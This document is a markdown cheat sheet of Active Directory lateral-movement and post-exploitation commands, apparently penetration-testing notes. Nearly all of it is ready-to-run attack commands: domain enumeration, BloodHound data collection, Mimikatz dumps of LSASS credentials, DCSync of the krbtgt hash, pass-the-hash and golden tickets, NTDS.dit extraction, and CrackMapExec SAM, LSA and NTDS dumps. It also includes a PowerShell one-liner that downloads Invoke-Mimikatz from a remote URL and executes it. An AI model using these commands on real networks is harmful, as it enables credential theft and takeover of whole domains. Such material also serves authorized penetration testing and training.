 # Lateral Movement  
## Contents 
- [Lateral Movement  ](#lateral-movement)
  * [Contents ](#contents)
  * [What to Look For ](#what-to-look-for)
  * [Quick Commands  ](#quick-commands)
    + [PowerShell Active Directory Module (only on DC by default)](#powershell-active-directory-module-only-on-dc-by-default)
  * [Post Exploitation Enumeration      ](#post-exploitation-enumeration)
    + [PowerView   ](#powerview)
  * [Bloodhound    ](#bloodhound)
  * [Mimikatz  ](#mimikatz)
  * [AD Password Files  ](#ad-password-files)
  * [Crackmapexec     ](#crackmapexec)
  
## What to Look For 
Post Initial Exploitation  
Enumerate users and groups on the host.     
What privilege level does your user have?       
Is privilege escalation needed?    
Check user home folders (including command history, browser history, zipped archives)   

## Quick Commands  

    net user
    net user /domain
    net user [username] /domain
    
    net localgroup
    net group /domain
    net group /domain "Domain Admins"  
         
### PowerShell Active Directory Module (only on DC by default)
List all hosts on the domain      

    Get-ADComputer -Filter * -Properties ipv4Address, OperatingSystem, OperatingSystemServicePack | Format-List name, ipv4*, oper*      
    
    Get-ADUser
    Get-ADDomain
    Get-ADGroup
    Get-ADGroupMember -identity "Domain Admins" -Domain test.local -DomainController 10.10.10.10
    Find-DomainShare   
    
## Post Exploitation Enumeration      
### PowerView   
Powershell script to enum domain after gaining admin access to machine   

[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)   
[PowerView Cheat Sheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)    
[Cheat sheet](https://hackersinterview.com/oscp/oscp-cheatsheet-powerview-commands/)   

    powershell -ep bypass   
    . .\PowerView.ps1   
    Get-NetDomain   
    Get-NetUser   
    Get-NetComputer -fulldata   
    
## Bloodhound    
[Bloodhound](https://github.com/BloodHoundAD/BloodHound)   
Bloodhound - GUI app installed on attack box, SharpHound - powershell script to enum and collect data -> exfiltrate as a zip file.     

    apt-get install bloodhound     

on victim, transfer file then import into Bloodhound and run queries   

    . .\SharpHound.ps1   
    Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip        
    
## Mimikatz  
Extracts passwords, hashes, PIN codes and kerberos tickets from memory.   
[Mimikatz and Password Dumps Reference](https://ivanitlearning.wordpress.com/2019/09/07/mimikatz-and-password-dumps/)    
[Online Password Cracker - Crackstation](https://crackstation.net/)     
[Dumping Hashes with Mimikatz - Video](https://www.youtube.com/watch?v=AZirvtZNIEw)   
Loading Powershell Script 

    powershell.exe-exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"    
   
    privilege::debug   
    lsadump::sam   

Dumping credentials from LSASS  

    mimikatz # privilege::debug   
    mimikatz # sekurlsa::logonpasswords   
Dumping credentials from a minidump   

    mimikatz # sekurlsa::minidump lsass.dmp   
    mimikatz # sekurlsa::logonPasswords   
    
DCSync the krbtgt hash  

    mimikatz # lsadump::dcsync /domain:<domain> /user:krbtgt   
Pass the hash   
    
    mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:<cmd>   
Golden ticket creation and pass the ticket   
    
    mimikatz # kerberos::golden /user:<username> /domain:<domain> /sid:<domain_sid> /krbtgt:<krbtgt_hash>   
    
## AD Password Files  
NTSDS.dit (db) and SYSTEM registry hive. Can use built in ntdsutil.exe to backup AD. Then use another tool to extract DC hashes, since NTDS.dit is encrypted and opened exclusively for use by OS (can't be copied).     
Back up AD files:    

    ntdsutil           
    activate instance ntds     
    ifm          #commands will generate backup of data in C:\ntds directory. Crack locally.    
    
Then locally extract NTDS.dit and SYSTEM registry data using Impacket script secretsdump.py  

    $ python secretsdump.py -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL        

Or use Mimikatz to extract hashes from NTDS.dit    

mimikatz # lsadump::dcsync /domain:domain.local /all /csv          

## Crackmapexec     
--continue-on-success    #flag to continue to continue through a userlist even after a successful logon    

Dump SAM using adminc creds   

    crackmapexec smb 10.10.10.10 -u UserNAme -p 'PASSWORDH' --sam   #dump SAM - needs admin creds      
Dump LSA secrets     

    crackmapexec smb 10.10.10.10 -u UserNAme -p 'PASSWORDH' --lsa   #dump lsa secrets - need admin on domain controller          
Dump NTDS.dit using secretsdump - needs admin creds on a DC:        

    crackmapexec smb 192.168.1.100 -u UserNAme -p 'PASSWORD' --ntds     #dump all hashes    
    crackmapexec smb 192.168.1.100 -u UserNAme -p 'PASSWORD' --ntds --users         
    crackmapexec smb 192.168.1.100 -u UserNAme -p 'PASSWORD' --ntds vss     #uses volume shadow copy service to dump hashes     

